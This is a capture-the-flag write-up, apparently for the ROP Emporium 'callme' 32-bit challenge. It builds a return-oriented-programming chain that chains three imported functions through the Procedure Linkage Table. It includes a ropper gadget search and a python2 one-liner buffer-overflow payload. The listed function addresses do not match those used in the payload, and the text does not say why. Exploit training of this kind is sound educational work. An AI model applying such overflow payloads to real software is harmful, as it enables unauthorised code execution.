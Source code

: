 # Contents
- Task Description
- 32 bit

## Task Description
Reliably make consecutive calls to imported functions.  
Use some new techniques and learn about the Procedure Linkage Table.

## 32 bit
Reading the site we need to call three functions while passing in the same three arguments.

args:  `0xdeadbeef`, `0xcafebabe`, `0xd00df00d`
functions: callme_one(), callme_two(), callme_three()

Getting the memory locations of the three functions:
callme_one():     `0xf7fc0d3d`
callme_two():     `0xf7fc0755`
callme_three():   `0xf7fc0855`

We also need a a way to remove the arguments off the stack after before we add the next function or they wont populate correctly.
You can find this gadget by running ropper:
```bash
ropper -f callme32 --search pop

0x080487f9: pop esi; pop edi; pop ebp; ret; 
```
Using this memory location the exploit chain will look like this:

Offset
callme1
gadget
arg1
arg2
arg3
callme2
gadget
arg1
arg2
arg3
callme3
gadget
arg1
arg2
arg3

Next is to find the buffer size.
44

encode everything in little endian and send it to a payload.
```bash
python2 -c 'print "A"*44 + "\xf0\x84\x04\x08" + "\xf9\x87\x04\x08" + "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0"+"\x50\x85\x04\x08"+"\xf9\x87\x04\x08" + "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0" +"\xe0\x84\x04\x08" +"\xf9\x87\x04\x08" + "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0"' > callme-32-payload
```

Which gives the flag :)
```flag
ROPE{a_placeholder_32byte_flag!}
```


---
Creation date: 13-10-2022

Last modified date: Thursday 13th October 2022
***

